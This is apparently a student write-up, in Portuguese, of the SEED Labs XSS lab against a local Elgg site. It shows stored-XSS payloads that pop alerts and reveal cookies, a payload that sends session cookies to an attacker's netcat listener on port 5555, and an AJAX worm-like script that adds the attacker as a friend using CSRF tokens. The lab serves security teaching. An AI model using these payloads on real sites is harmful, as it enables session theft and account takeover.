 # Cross-Site Scripting (XSS) 

## Setup

Numa fase inicial adicionamos novas entradas nos hosts conhecidos pela máquina virtual e executamos os containers fornecidos no lab:

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'
                        # colocar 'www.example{32a, 32b, 32c, 60, 70}.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up
```

## Task 1 - Posting a Malicious Message to Display an Alert Window

A tarefa consistia em injetar um código javascript num perfil do *Elgg* de forma a aparecer uma mensagem num popup. Para isso iniciamos sessão com uma conta do sistema, por exemplo a da Alice (alice/seedalice), e editamos o seu perfil. Na parte "About Me", modificamos o HTML dessa secção e colocamos o script:

```html
<script>alert('XSS');</script>
```

Ao observarmos o perfil da Alice com outra conta do sistema, foi possível verificar que o ataque foi bem implementado: tal como esperado, a mensagem no popup apareceu:

![Task 1](../Images/lab10task1.png)

## Task 2 - Posting a Malicious Message to Display Cookies

Esta tarefa é muito semelhante à anterior, embora o código seja diferente pois agora permite expor as cookies dos utilizadores assim que visualizam o perfil. Para isso, no campo "About me" da conta da Alice, colocamos o seguinte código:

```html
<script>alert(document.cookie);</script>
```

Agora, sempre que visualizamos o perfil da Alice, os nossos cookies aparecem na mensagem de alerta do próprio website:

![Task 2](../Images/lab10task2.png)

## Task 3 - Stealing Cookies from the Victim’s Machine

A ideia do ataque é além de expor as cookies dos utilizadores enviá-las através de um *HTTP request* para o atacante, que estará à escuta na porta 5555 do mesmo servidor. Assim, foi necessário editar o perfil da Alice e na secção "About me" adicionar o seguinte código:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

Este código permite que sempre que a página de perfil da Alice é renderizada, os cookies da sessão do cliente seja enviado por *GET requests*. De forma a poder visualizar esses mesmos *requests*, abrimos uma shell e com o seguinte comando ficamos a interceptar as ligações:

```bash
$ nc -lknv 5555
```

Ao iniciar sessão com outra conta e visitar o perfil da Alice, recebemos através da ligação anteriormente feita as cookies desse utilizador do sistema:

![Task 3](../Images/lab10task3.png)

## Task 4 - Becoming the Victim’s Friend

A ideia deste ataque é que, quando a vítima entrar no perfil do atacante, adiciona-o como amigo. 

Numa fase inicial, acedeu-se ao perfil do Sammy, fez-se um pedido de amizade e capturou-se o *request* com a ferramenta HTTP Header Live:

![Task 4 a](../Images/lab10task4a.png)

Verificou-se que o endereço foi o seguinte:

```note
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw&__elgg_ts=1669377267&__elgg_token=Zu2c7dLG2QTOULCeBD8Nsw
```

Com base neste URL, construiu-se um script que faz um pedido AJAX sempre que a página de perfil do Sammy é renderizada, e colocou-se no campo "About me" do Sammy. A variável `ts` é o timestamp do pedido e a variável `token` é um token dinâmico que garante a autenticidade do pedido, associada à sessão do utilizador.

```html
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script> 
```

Tal como esperado, sempre que outro utilizador do sistema acede ao perfil do Sammy, o browser envia automaticamente um pedido de amizade:

![Task 4 b](../Images/lab10task4b.png)

Na imagem pode-se observar que apesar do botão para a amizade não estar clicado, o pedido foi enviado.
